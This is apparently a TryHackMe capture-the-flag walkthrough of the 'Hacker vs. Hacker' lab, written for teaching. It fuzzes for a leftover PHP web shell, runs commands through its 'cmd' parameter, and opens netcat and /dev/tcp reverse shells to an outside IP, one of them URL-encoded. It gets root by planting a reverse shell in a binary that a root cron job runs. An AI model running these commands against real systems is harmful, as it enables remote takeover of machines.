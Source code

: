 ```yaml
---
title: Walkthrough - Hacker vs. Hacker
published: true
---
```


Tags: Web Foothold, Enumeration.
Description: Someone has compromised this server already! Can you get in and evade their countermeasures?
Difficulty: Easy
URL: [https://tryhackme.com/room/hackervshacker](https://tryhackme.com/room/hackervshacker)

* * *

## Notes

> The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

Port 80 has a website and the upload form has been hacked.

Caputuring in burposuite we see the hacker left behind some code for us

```
<!-- seriously, dumb stuff:
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

So we cant upload a shell, we cant access cvs. So maybe we can find the shell the hacker left over... We can use `fuff` which is a super easy to use fuzzer.

- `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.97/cvs/FUZZ.pdf.php`

Here we find shell. Lets check that out on the site. All we have is BOOM. We can use fuzz some more to extrapolate some more information about this php.

- `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.97/cvs/shell.pdf.php?FUZZ=id -fs 18` this command will exclude all results with 18 characters. And here we find `cmd` is the variable we are looking for.

Capture the request in burpsuite and send it to the repeater.

```
GET /cvs/shell.pdf.php?cmd=id HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Since this is executing commands and sending us our ID we can edit this in order to send us a reverse shell. Setup netcat listener and lets try.

- use `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f` as the variables parameter and encode it as url to recieve reverse shell

```
GET /cvs/shell.pdf.php?cmd=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%32%2e%31%32%37%2e%32%32%35%20%36%36%36%36%20%3e%2f%74%6d%70%2f%66 HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

* * * 

## user.txt?

![0xskar](/assets/hackervshacker.png)

* * * 

## root.txt?

everytime we try to upgrade the shell we get noped out of it. kind of hilarious. hmm

```
cat /home/lachlan/.bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

We can login via ssh using these creds. But we keep getting kicked. 

- `cat /etc/cron.d/persistence`

root is running crontab that is executing pkill, we can use this to send us another revshell as root. quickly logging into ssh and executing the following command gives us root shell.

`echo "bash -c 'bash -i >& /dev/tcp/10.2.127.225/6667 0>&1'" > bin/pkill ; chmod  +x bin/pkill`

* * * 

